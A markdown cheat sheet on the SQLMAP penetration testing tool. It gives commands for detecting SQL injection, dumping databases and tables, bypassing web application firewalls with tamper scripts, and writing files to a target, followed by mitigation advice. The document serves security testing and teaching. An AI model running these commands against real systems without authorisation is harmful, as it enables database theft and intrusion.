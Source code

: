 ## Overview
SQLMAP is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications. It is one of the most powerful and widely-used tools for performing SQL injection attacks and extracting sensitive information from databases. SQLMAP supports various types of injections including error-based, blind, and time-based SQL injection, among others, and can automate the exploitation process for different database management systems.

## Key Terminology
- **SQL Injection (SQLi)**: A security vulnerability that allows attackers to interfere with the queries an application makes to its database, enabling unauthorized access or manipulation of the database.
- **Blind SQL Injection**: A type of SQL injection where the attacker doesn't get direct feedback from the database but can infer information based on the behavior of the application.
- **Error-based SQL Injection**: A type of SQL injection that relies on error messages from the database server to gain insight into its structure and contents.
- **Time-based Blind SQL Injection**: A type of blind SQL injection where the attacker forces the database to delay its response, and the timing of the delay indicates whether the condition is true or false.

---

## Basic SQLMAP Commands
### Scanning for SQL Injection Vulnerabilities
```bash
sqlmap -u "http://example.com/page?id=1" --batch
````

Scans the URL (`http://example.com/page?id=1`) for potential SQL injection vulnerabilities and automatically attempts to exploit any found vulnerabilities.

### Specifying a Proxy

```bash
sqlmap -u "http://example.com/page?id=1" --proxy="http://127.0.0.1:8080"
```

Directs SQLMAP to use a specified proxy (`http://127.0.0.1:8080`) to send HTTP requests, useful for intercepting and analyzing traffic using tools like Burp Suite.

### Using a Custom User-Agent

```bash
sqlmap -u "http://example.com/page?id=1" --user-agent="Mozilla/5.0"
```

Uses a custom `User-Agent` header in requests to avoid detection by anti-bot mechanisms or to mimic a legitimate browser.

### Dumping Database Information

```bash
sqlmap -u "http://example.com/page?id=1" --dump
```

Attempts to dump the database's contents (tables, columns, and data) from a vulnerable web application.

---

## Advanced SQLMAP Techniques

### Enumerating Databases

```bash
sqlmap -u "http://example.com/page?id=1" --dbs
```

Enumerates the available databases on the target server, providing a list of all the databases that SQLMAP can access through SQL injection.

### Listing Tables in a Specific Database

```bash
sqlmap -u "http://example.com/page?id=1" -D target_database --tables
```

Lists all the tables in the specified database (`target_database`).

### Dumping Data from a Specific Table

```bash
sqlmap -u "http://example.com/page?id=1" -D target_database -T target_table --dump
```

Dumps the data from a specific table (`target_table`) in the specified database (`target_database`).

### Using Time-Based Blind Injection

```bash
sqlmap -u "http://example.com/page?id=1" --technique=T
```

Tells SQLMAP to use time-based blind SQL injection techniques to extract information from a vulnerable web application.

### Bypassing WAF (Web Application Firewall)

```bash
sqlmap -u "http://example.com/page?id=1" --tamper=space2comment
```

Uses a tamper script (`space2comment`) to modify the payload and bypass web application firewalls (WAFs) or intrusion prevention systems (IPS).

### Performing a File Write/Read Operation

```bash
sqlmap -u "http://example.com/page?id=1" --file-write="/path/to/file" --file-dest="/server/destination"
```

Attempts to write a file to the target system via SQL injection or read a file from the server (if the SQL injection vulnerability allows for it).

---

## Practical Use Cases

- **Penetration Testing**: SQLMAP is frequently used by penetration testers to identify and exploit SQL injection vulnerabilities in web applications during security assessments.
- **Security Audits**: Auditing web applications for SQL injection vulnerabilities to ensure that they are secure against common attack vectors.
- **Bug Bounty Hunting**: Searching for SQL injection vulnerabilities in web applications as part of a bug bounty program.
- **Red Teaming**: Simulating realistic SQL injection attacks to test the effectiveness of security controls and defenses.

---

## Mitigation Strategies

- **Use Prepared Statements**: Always use prepared statements (also known as parameterized queries) to prevent SQL injection attacks by separating data from SQL logic.
- **Input Validation and Sanitization**: Validate and sanitize all user inputs to ensure that only expected and safe values are processed.
- **Use Stored Procedures**: Employ stored procedures to limit the risk of SQL injection by encapsulating SQL logic and reducing the opportunity for user-controlled input to affect the query.
- **Principle of Least Privilege**: Limit database user permissions to only what's necessary for the application to function, reducing the impact of a successful SQL injection attack.
- **Web Application Firewalls (WAFs)**: Use WAFs to detect and block malicious SQL injection attempts.
- **Regular Security Testing**: Continuously test your web applications for vulnerabilities, including SQL injection, using tools like SQLMAP or manual testing.

---

## References

- [SQLMAP GitHub Repository](https://github.com/sqlmapproject/sqlmap)
- [SQLMAP Official Documentation](http://sqlmap.org/)